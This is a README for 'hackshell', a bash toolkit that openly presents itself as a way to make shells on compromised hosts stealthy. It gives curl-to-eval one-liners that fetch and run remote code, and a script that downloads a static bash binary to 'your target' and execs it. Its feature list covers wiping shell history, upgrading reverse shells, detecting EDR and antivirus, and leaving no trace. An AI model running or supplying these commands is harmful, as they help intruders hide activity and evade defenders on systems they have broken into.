 # hackshell
Make BASH stealthy and hacker friendly with lots of bash functions

Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 eval "$(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)"
```

Some features:
*  unsets HISTFILE, SSH_CONNECT, wget/redis/mysql/less-HISTORY, ...
*  Auto-Upgrates to PTY shell (if reverse shell)
*  Creates hacker-friendly shortcuts, bash-functions and aliases
*  Detects EDR/AV/SELinux/AppArmor/LKMs/...
*  Static binary download by simple `bin <command>` (e.g. `bin nmap`)
*  Does not write ANY data to the harddrive
*  Leaves no trace
 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)

It works best with bash. Download BASH if there is no bash on your target:
```shell
URL="https://bin.pkgforge.dev/$(uname -m)/bash"
[ "$(uname -m)" == i686 ] && URL='https://github.com/polaco1782/linux-static-binaries/raw/refs/heads/master/x86-i686/bash'
curl -obash -SsfL "${URL}" && chmod 700 bash && ./bash --version && exec ./bash -il
```
